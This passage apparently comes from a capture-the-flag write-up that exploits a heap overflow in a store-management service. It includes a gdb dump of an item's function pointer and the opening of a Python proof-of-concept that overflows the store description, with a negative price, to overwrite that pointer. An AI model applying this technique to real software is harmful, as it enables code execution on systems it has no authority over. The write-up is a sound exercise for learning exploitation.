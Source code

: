 The store description string was in between the items on the stack. The items contained a pointer to two function address:

```
                .-- ptr to two function addresses
                |             .-- start of phone/watch name, 0x20 bytes long
                v             v
0x8257008:  0x08049b70  0x41414141  0x41414141  0x41414141
                   ^
                   |
                   `--- this value points to two functions:
gdb-peda$ x/2wx 0x08049b70
0x8049b70:  0x08049466  0x080492fe
```

If I could somehow overwrite that pointer of an item by overflowing the store description string, I could possible get code execution (it was nowhere near that easy, but bear with me). I started trying to generate large items, and indeed, I could overflow the function pointer of the second item using large inputs. The trick was to also set the price to a negative value, giving me just enough bytes to overflow. I whipped up a poc python script to do this for me. The layout and some functions of this poc are heavily inspired by [saelo](https://gist.github.com/saelo/9e6934b3c40cf42e3f87)!

```python
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('localhost', 6666))
    
    # pause to allow gdb to attach
    raw_input()
    
    # register store
    readtil('choice?')
    sendln('a')     
    readtil('store?')
    sendln("S"*63)  # store name; maximum allowed, need it to overflow a buffer later!
    
    # the program *needs* to have an item to sell before it can generate a store menu
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
```